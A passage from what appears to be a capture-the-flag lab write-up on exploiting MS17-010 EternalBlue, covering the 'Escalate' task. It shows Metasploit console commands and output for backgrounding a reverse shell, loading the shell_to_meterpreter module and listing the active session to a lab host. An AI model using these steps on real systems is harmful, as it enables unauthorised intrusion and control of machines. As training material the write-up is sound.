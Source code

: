 
we are able to set the initial foothold



### TASK 3 Escalate

Now we need to get from command shell to meterpreter shell

first by Ctrl+Z to background this session

    C:\Windows\system32>^Z
    Background session 1? [y/N]  y
    msf6 exploit(windows/smb/ms17_010_eternalblue) > 

then we will get meterpreter by search for the shell_to_meterpreter model

    msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

    Matching Modules
    ================

    #  Name                                    Disclosure Date  Rank    Check  Description
    -  ----                                    ---------------  ----    -----  -----------
    0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

    msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
    msf6 post(multi/manage/shell_to_meterpreter) > show options

    Module options (post/multi/manage/shell_to_meterpreter):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
    LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
    LPORT    4433             yes       Port for payload to connect to.
    SESSION                   yes       The session to run this module on


    View the full module info with the info, or info -d command.


it needs session ID. We can get it by sessions -l

 
    msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

    Active sessions
    ===============

    Id  Name  Type               Information                                             Connection
    --  ----  ----               -----------                                             ----------
    1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] ---  10.13.2.185:4444 -> 10.10.39.230:49290 (10.10.39.230)
                                --
